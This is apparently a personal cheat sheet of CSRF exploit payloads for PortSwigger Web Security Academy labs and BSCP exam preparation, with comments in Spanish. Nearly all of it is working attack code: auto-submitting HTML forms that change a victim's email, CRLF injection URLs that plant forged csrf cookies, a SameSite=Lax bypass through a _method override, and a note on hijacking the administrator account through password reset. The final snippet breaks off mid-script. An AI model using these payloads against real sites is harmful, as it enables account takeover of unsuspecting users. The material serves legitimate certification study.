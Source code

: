 ```js
//<img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
****
SUPER IMPORTANTE: STAGE 2
>>> During BSCP **Exam** set the email change value to that of the exploit server **hacker@exploit-server.net** email address. Then you can change the administrator password with the reset function.
****
------
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://ID-LAB.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="tester2&#64;normal&#45;user&#46;net" />
      <input type="hidden" name="csrf" value="3hLcSGU19e160bjtlVhZPVlEMhDEuC0x" />
      <input type="submit" value="Submit request" />
    </form>
		<img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  </body>
</html>

//LAB: CSRF Token Duplicated in Cookie: `LastSearchTerm` `Set-Cookie` STAGE 2 
	//AQUI SI ES CSRF. 
	//Es un lab muy similar al de arriba sin embargo aqui nos centraremos en poner un csrf en ambas partes ya veremos cuales: 
	//?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None
	//Y luego <img> para el CSRF poc será asi: 
	//--> <img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
	//nos vamos a change email generamos el csrf POC y LO DEJAMOS ASI: e importante dejar el mismo token en ambas partes. 

<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://ID-LAB.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker5&#64;normal&#45;user&#46;net" />
      <input type="hidden" name="csrf" value="FAKE-SAME-TOKEN" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://ID-LAB.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=FAKE-SAME-TOKEN%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  </body>
</html>


//LAB: CSRF Bypass SameSite=Lax anulacion Method Override: `_method:POST`
	* SameSite=Lax
	//GET /my-account/change-email?email=wiener%40normal-user.net&_method=POST
	<script>
    document.location = 'https://ID-LAB.web-security-academy.net/my-account/change-email?email=test%40normal-user.net&_method=POST';
	</script>


//LAB: CSRF Bypass SameSite strict redirection side client: `path traversal open redirect con un CSRF`
	* SameSite=Strict
	//encontramos un redirect en el source js del lab, y se podia meter path traversal
	//GET /post/comment/confirmation?postId=1/../../my-account/change-email?email=test%40normal-user.net
	<script>
```

  [param]: html